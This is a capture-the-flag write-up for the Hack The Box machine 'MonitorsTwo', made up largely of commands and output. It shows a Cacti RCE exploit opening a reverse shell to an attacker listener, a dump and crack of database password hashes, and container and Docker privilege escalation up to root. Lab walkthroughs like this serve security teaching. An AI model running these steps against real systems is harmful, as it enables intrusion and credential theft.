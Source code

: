 # MonitorsTwo - HTB(Easy)
## IP = 10.129.83.49

### NMAP

```

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login to Cacti
|_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Enumeration

When entering the site you can see that it's using The Cacti Group version 1.2.22 and with a little search on google you can find a rce exploit on this version you can de the following to gain a reverse shell:

```

$ git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git
$ cd CVE-2022-46169-CACTI-1.2.22
$ python3 CVE-2022-46169.py -u http://10.129.83.49 --LHOST 10.10.14.57 --LPORT 8888
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!

$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.83.49] 60564
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$

```

### www-data eunmeration

```

www-data@50bca5e748b0:/var/www/html$ cat include/config.php
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;

www-data@50bca5e748b0:/var/www/html$ mysql -p -u root -h db cacti
MySQL [cacti]> SELECT username, password FROM user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+

```

Right before cracking those hashes, I looked more in this contained and found a SUID that can give me access to root. Although we don't need it right now maybe it will be handy later:

```

www-data@50bca5e748b0:/var/www/html$ /usr/bin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/#

```

Now we can try and crack those hashes:

```

> .\hashcat.exe -m 3200 .\hashes\monitorstwo.txt ..\rockyou.txt --username -O
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey

```

### SSH Login

```

$ ssh marcus@monitorstwo.htb
Password: funkymonkey
marcus@monitorstwo:~$ cat user.txt
af6a3576069ad6ad42857d243cb1b3e0

```

### PrivEsc 

After enumerating a little bit I found the following mail:

```

marcus@monitorstwo:~$ cd /var/mail/
marcus@monitorstwo:/var/mail$ cat marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team

```

Interesting, So we got three vulnerabilities we can check on. Im going to start with CVE-2021-41091 because it's the most similar to a privesc and I don't want to play with the kernel if I don't have to.

Let's try the exploit:

#### CVE-2021-41091

First find where the docker container is mounted:
```

marcus@monitorstwo:/var/mail$ findmnt
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/

```

Now we need to use the container we found earlier and upgrade a binary to SUID:
```

root@50bca5e748b0:/# chmod u+s /bin/bash

```

And run the following:
```

marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# cat /root/root.txt
718fbfac5e9648c3a0f5b189d35c1946

```

And thats the box, pretty fun, actually I strugeld with getting the user, because the hash didn't crack for me, but that was my mistake after that it was a piece of cake. Alright thanks for tuning in Cheers.





